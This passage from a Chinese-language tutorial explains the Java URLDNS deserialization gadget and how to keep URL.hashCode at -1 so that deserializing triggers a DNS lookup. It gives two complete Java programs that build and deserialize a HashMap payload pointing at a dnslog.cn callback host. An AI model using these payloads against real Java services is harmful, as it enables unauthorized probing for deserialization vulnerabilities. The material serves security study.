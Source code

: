 按理说这么做已经结束了，但是，咱们再看下 url.hashCode();方法，跟进看下该方法的实现：

![image-20221004163032785](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20221004163032785.png)

在正常调用url.hashCode();  该hashCode值默认为-1，代码自动给我们赋值为-1，但是如果直接进行反序列化过程中，由于没有上下文，因此无法获取到该`hashCode`值，因此无法直接进行反序列化。

### 2.3 hashCode说明

在 URL 对象有一个属性 hashCode，默认是 -1，使用`hashCode` 方法计算时会在 hashCode 属性中缓存已经计算过的值，如果再次计算将直接返回值，不会在触发 URLStreamHandler 的 `hashCode` 方法，也就不会触发漏洞。所以我们需要在生成的 HashMap 中的 URL 参数的 hashCode 值在反序列化时为 -1，而刚才说过，如果使用 put 方法，会调用一次 key 的 hash 计算，也就是 URL 的 `hashCode` 方法，这样就把 hashCode 缓存了，在反序列化时就不会触发 URLStreamHandler 的 `hashCode` 方法以及后面的逻辑，所以有两种思路解决这个问题：

- 如果使用 HashMap 的 `put` 方法，将 URL 对象放入 Map 的 key 中之前，先将其 URL 对象 hashCode 进行修改，使其不等于 -1，这样就不会触发 DNS 查询，放入之后，再使用反射将 URL 对象中的 hashCode 修改为 -1，反序列化的时候就可以正常触发了。

  ![image-20221004170157178](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20221004170157178.png)

  

- 直接反射调用 HashMap 的 `putVal` 方法绕过 hash 计算。（由于 JDK 1.7 中方法名不一样，细节也不一样，所以不具有通用性）



第一种思路的代码实现：

```java
public class URLDNS {

	public static void main(String[] args) throws Exception {

		HashMap<URL, Integer> hashMap = new HashMap<>();
		URL                   url     = new URL("http://8de0ko.dnslog.cn");
		Field                 f       = Class.forName("java.net.URL").getDeclaredField("hashCode");
		f.setAccessible(true);  #由于hashCode  定义为： private int hashCode = -1; ，因此需要设置setAccessible
		f.set(url, 0x01010101);
		hashMap.put(url, 0);
		f.set(url, -1);
		ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns.bin"));
		oos.writeObject(hashMap);
		ObjectInputStream ois = new ObjectInputStream(new FileInputStream("urldns.bin"));
		ois.readObject();
	}
}
```

第二种思路的代码实现：

```java
public class URLDNS2 {

	public static void main(String[] args) throws Exception {

		HashMap<URL, Integer> hashMap = new HashMap<>();
		URL                   url     = new URL("http://8de0ko.dnslog.cn");
		Method[] m = Class.forName("java.util.HashMap").getDeclaredMethods();
		for (Method method : m) {
			if (method.getName().equals("putVal")) {
				method.setAccessible(true);
				method.invoke(hashMap, -1, url, 0, false, true);
			}
		}
		ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("urldns2.bin"));
		oos.writeObject(hashMap);
		ObjectInputStream ois = new ObjectInputStream(new FileInputStream("urldns2.bin"));
		ois.readObject();
	}
}
```